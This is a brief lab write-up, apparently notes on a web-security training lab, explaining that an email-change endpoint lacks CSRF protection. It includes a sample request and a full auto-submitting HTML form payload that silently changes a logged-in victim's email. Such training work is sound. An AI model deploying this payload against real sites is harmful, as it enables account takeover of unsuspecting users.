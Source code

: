 # 1 - CSRF With No Defenses

### Notes

This lab's email change functionality is vulnerable to CSRF.

The feature works by sending a POST request to the `/my-account/change-email` endpoint without a CSRF token.

```http
POST /my-account/change-email HTTP/1.1
Cookie: session=rUQaRA2VvHlC8irD8jXmNIcsqxpzgUY2

email=foo@bar.com
```

The following CSRF payload delievered to the user will change their email to `wiener@peter.com`:

```html
<html>
  <body>
    <h1>Hello, user!</h1>

    <iframe name="csrf-iframe" style="display: none;"></iframe>

    <form
      id="csrf-form"
      method="POST"
      action="https://0a7f003a03062960c0e92ff5002f0046.web-security-academy.net/my-account/change-email"
      target="csrf-iframe"
    >
      <input type="hidden" name="email" value="wiener@peter.com" />
      <input type="submit" value="Submit request" />
    </form>

    <script>
      document.getElementById('csrf-form').submit()
    </script>
  </body>
</html>
```
